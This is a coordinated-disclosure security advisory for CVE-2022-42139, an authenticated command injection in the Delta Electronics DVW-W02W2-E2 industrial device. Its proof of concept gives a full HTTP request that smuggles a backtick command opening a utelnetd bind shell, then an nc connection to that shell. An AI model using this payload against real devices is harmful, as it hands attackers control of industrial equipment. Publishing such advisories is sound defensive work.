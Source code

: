 === Content from cyberdanube.com_0b90a02f_20250108_132117.html ===

[![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_Logo_black_fontOnly.svg)![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_Logo_white_fontOnly.svg)](https://cyberdanube.com)

* [Services](https://cyberdanube.com/services/)
* [Medusa](https://medusa.re/)
* [Security Research](https://cyberdanube.com/security-research/)
* [Contact](https://cyberdanube.com/contact/)

[back to the list](https://cyberdanube.com/security-research/)Date01/08/2022ImpactHighCVE IDsCVE-2022-42139
# Authenticated Command Injection in Delta Electronics DVW-W02W2-E2

Delta Electronics DVW-W02W2-E2 is prone to an authenticated command injection vulnerability. This vulnerability can be used to execute arbitrary commands on the device.

## Vendor description

âDelta, founded in 1971, is a global provider of power and thermal management solutions. Its mission statement, âTo provide innovative, clean and energy -efficient solutions for a better tomorrow,â focuses on addressing key environmental issues such as global climate change. As an energy-saving solutions provider with core competencies in power electronics and automation, Deltaâs business categories include Power Electronics, Automation, and Infrastructure.â

Source:Â <https://www.deltaww.com/en-US/about/aboutProfile>

### Vulnerable versions

DVW-W02W2-E2 / V2.42

#### Vulnerability overview

1) Authenticated Command Injection

The web server of the device is prone to an authenticated command injection. It allows an attacker to gain full access to the underlying operating system of the device with all implications. If such a device is acting as key device in an industrial network, or controls various critical equipment via serial ports, more extensive damage in the corresponding network can be done by an attacker.

#### Proof of Concept

##### 1) Authenticated Command Injection

The web server is prone to an authenticated command injection via POST parameters. This is only possible if the âtimestampâ parameter is set correctly in the URL. The following proof-of-concept shows how to open a port binding shell on port 8889 with a âutelnetdâ listener:

```
POST /apply.cgi?/MT_ping.htm%20timestamp=$correct-timestamp$ HTTP/1.1
Host: 192.168.3.148
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.3.148
Connection: close
Referer: http://192.168.3.148/MT_ping.htm
Cookie: xxid=1973719449
Upgrade-Insecure-Requests: 1
submit_flag=mt_ping&hid_ver1=&hid_ser1=&hid_comm1=&hid_ver2=&hid_ser2=&hid_comm2=&destination=`utelnetd%20-p%208889%20-l%20/bin/ash%20-d`
```

For accessing the device, the command ânetcatâ can be used:

```
$ nc 192.168.3.150 8889
ï¿½ï¿½ï¿½ï¿½!ï¿½ï¿½ï¿½ï¿½
BusyBox v1.4.2 (2016-08-18 22:45:41 EDT) Built-in shell (ash)
Enter âhelpâ for a list of built-in commands.
/ #
```

The vulnerability was manually verified on an emulated device by using the MEDUSA scalable firmware runtime ([https://medusa.cyberdanube.com](https://medusa.cyberdanube.com/)).

#### Solution

Update to firmware version V2.5.2.

#### Workaround

None

#### Recommendation

CyberDanube recommends Delta Electronics customers to upgrade the firmware to the latest version available.

---

## References

#### Contact Timeline

* 2022-08-02: Contacting Delta Electronics.
* 2022-08-10: Vendor requested the advisory without encryption; Sent advisory to Delta Electronics.
* 2022-08-16: Security contact asked few questions regarding responsible disclosure; Sent answers.
* 2022-08-30: Asked for an update.
* 2022-09-01: Vendor responded, that they will need more time to resolve the issues; Provided additional 30 days (until 2022-11-02) for patching.
* 2022-10-11: Asked for an update.
* 2022-10-12: Vendor responded, that fixing will be done 2022-11-15; Shifted release date to this date.
* 2022-10-16: Vendor shifted release date again to 2022-11-18. Shifted advisory release date to the same day.
* 2022-10-17: Asked for an update regarding the release; No answer.
* 2022-10-18: Asked for an update and shifted release date to 2022-10-22.
* 2022-10-19: Vendor responded, that there were problems at releasing the patch. Contact stated, that the patch will delay until end of November.
* 2022-10-21: Asked vendor for a concrete release date; No answer.
* 2022-10-28: Announced advisory release date for 2022-10-30 to vendor.
* 2022-10-29: Found firmware patches with issue date 2022-11-25 on vendors website.
* 2022-10-30: Vendor confirmed fixes. Coordinated release of security advisory.

### Author(s)

![](https://cyberdanube.com/wp-content/uploads/2024/11/Avatar_TWE_lightblue_withoutbeard.webp)
#### Thomas Weber

Thomas Weber is co-founder and security researcher at CyberDanube in the field of embedded systems, (I)IoT and OT. He has uncovered numerous zero-day vulnerabilities and has published a large number of security advisories in the past. As part of his scientific work, he developed an emulation system for firmware â today the SaaS tool >Â [MEDUSA](https://cyberdanube.com/en/firmwaretwin/)Â < has emerged out of this. In the past he spoke at cyber security conferences such as HITB, BlackHat, IT-SECX, HEK.SI and OHM(international). Nowadays, he brings his competence and experience into security products.

## Experience Pentesting & Assessments by CyberDanube.

See how our in-depth testing uncovers hidden vulnerabilities and detect blind spots in your systems against potential cyber threats. Ready to secure your industrial services ? Get in touch with us!

[Get started](https://cyberdanube.com/contact/)[![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_LogoOnly.png)](https://cyberdanube.com)ContactCD Security Technologies GmbHHohenauergasse 21A/1, â¨
A-1190 ViennaMo – Fr 08:00 – 18:00Navigation

* [Services](https://cyberdanube.com/services/)
* [Medusa](https://medusa.re/)
* [Security Research](https://cyberdanube.com/security-research/)
* [Contact](https://cyberdanube.com/contact/)
Legal

* [Imprint](https://cyberdanube.com/imprint/)
* [Privacy Policy](https://cyberdanube.com/privacy-policy/)
* [Responsible Disclosure Policy](https://cyberdanube.com/responsible-disclosure-policy/)
Get in touchoffice@cyberdanube.com

Â© 2021-2025 CD Security Technologies GmbH

 Menu


